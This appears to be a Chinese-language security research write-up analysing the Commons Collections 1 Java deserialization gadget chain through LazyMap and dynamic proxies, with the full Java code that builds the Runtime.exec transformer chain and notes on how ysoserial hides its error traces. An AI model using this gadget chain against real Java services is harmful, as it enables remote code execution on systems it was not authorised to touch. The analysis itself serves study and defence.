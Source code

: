 ```yaml
---
sidebar_position: 1
tags: [ysoserial, PPPYSO]
#slug: About Me
#title: About Me
---
```


# CommonsCollections1 - LazyMap

## 0x01 LazyMap是什么？& 引出动态代理

前文分析了通过 `TransformedMap` 构造 payload 的方式，接下来分析 ysoserial 中使用的`LazyMap` 。 `LazyMap.get()` 方法在 key 不存在时会调用  `transform()`。

![image-20230307232014578](attachments/image-20230307232014578.png)

还是上一篇文章介绍的 `sun.reflect.annotation.AnnotationInvocationHandler` 类的 `Invoke()` 方法中调用了，通过 `memberValues` 对象调用了 `get()` 方法。

![image-20230327233519552](attachments/image-20230327233519552.png)

`invoke()` 方法是不是很熟悉，`AnnotationInvocationHandler` 类实现了 `InvocationHandler` 接口，这条链正是对于动态代理的运用。

如果我们将 `AnnotationInvocationHandler` 这个类包装为 `Proxy` ，那么在调用 `readObject()` 时，因为调用了这个类的方法，就会进入 `invoke()` 方法，最终也就串联起了 chain。

![image-20230308102556984](attachments/image-20230308102556984.png)

## 0x02 LazyMap构造

在之前分析 `TransformedMap` 的基础上进行改写为 `LazyMap` 方式

```java
HashMap map = new HashMap();
Map lazyMap =  LazyMap.decorate(map, chainedTransformer);
```

首先还是构造一个 `AnnotationInvocationHandler` 对象封装 LazyMap，然后创建动态代理实例。

```java
Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, lazyMap);
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);
```

动态代理实例 `proxyMap` 还需要一个存在 `readObject()` 方法的 kick-off 来触发反序列化，CC1 这条链直接用的 `AnnotationInvocationHandler` 触发。

```java
invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, proxyMap);
```

最终形成

```java
Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec",new Class[]{String.class}, execArgs)
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

//        chainedTransformer.transform(null);
        HashMap map = new HashMap();
        Map lazyMap =  LazyMap.decorate(map, chainedTransformer);

        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, lazyMap);
        
				Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, invocationHandler);
        invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, proxyMap);
```

Idea 调试时，把 `toString()` 关了，避免触发到动态代理造成意外的执行。

![image-20231221185413606](attachments/image-20231221185413606.png)

## 0x03 ysoserial 还做了什么？

在上述payload中，虽然成功执行了命令，但报错信息中存在 `java.lang.UNIXProcess` 字样

![image-20230310143919881](attachments/image-20230310143919881.png)

ysoserial在构造 `Transformer[]` 时，结尾添加了一个 `new ConstantTransformer(1)` ，报错信息中就可以将这部分信息隐藏。

![image-20230310144252780](attachments/image-20230310144252780.png)

![image-20230310144121192](attachments/image-20230310144121192.png)

并且在返回前才将有威胁的 `Transformer[]` 通过反射写入 `transformerChain`，避免在生成时调用如 `toString()` 等触发命令（动态代理会代理从Object继承来的方法）。

![image-20230310145346447](attachments/image-20230310145346447.png)

## 0x04 CC1总结

分析完 CC1 的两种利用方式，本质上的利用方式区别不大。而在分析CC1漏洞时，特意选用了小于 8u71 的jdk版本，是因为后续 [补丁](https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/f8a528d0379d) 中 AnnotationInvocationHandler 新增了一个 `LinkedHashMap` ，对 Map 的操作都基于这个新对象，因此我们传入的 Map 都无法直接执行 set、get 方法，后续分析中将继续改造调用链实现更高 JDK 版本的利用。

![image-20230310153338255](attachments/image-20230310153338255.png)

